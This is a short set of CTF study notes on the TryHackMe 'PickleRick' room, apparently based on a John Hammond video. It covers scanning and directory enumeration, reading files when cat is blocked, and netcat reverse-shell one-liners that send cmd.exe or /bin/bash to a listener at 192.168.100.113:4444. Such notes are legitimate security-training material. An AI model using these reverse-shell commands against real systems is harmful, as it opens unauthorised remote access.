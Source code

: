 PickleRick

# Notes from JohnHammond TryHackMe Series
[TryHackMe! PickleRick - BYPASSING Blacklists](https://www.youtube.com/watch?v=oCAtfcr3iUw)

## Basic Enumeration
```
nmap -sC -sV -oN <filename> <IP_Address>
```
```
nikto -h <IP_Address>
```
```
gobuster -u <URL> -w <Wordlist> -x <Extension separated by commas>
```

## Got a Command Line (pseudo) 

Reading from file without any text editor / cat
```
while read line; do echo $line; done < filename.txt
```
```
grep . filename.txt
```
This displays all the contents of all the files. The files are traversed recursively
```
grep -R .
```
#### Here . is a regex pattern.

## Getting Reverse Shell

If netcat works then no issue
Server listens on Port 4444:
```
nc –lnvp 4444
```
Client ( if Windows - Do install it on windows first!)
```
nc.exe 192.168.100.113 4444 –e cmd.exe
```
Client ( if Linux )
```
nc 192.168.100.113 4444 –e /bin/bash
```

If its unavailable, check if python(2)/(3) / perl / java / ruby etc are available.
Use the following link to get reverse shell. 
[Pentest Monkey Reverse Shell Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)


## Notes / Tips

If you get a base64 string and it does not work the first decode, try decoding it several times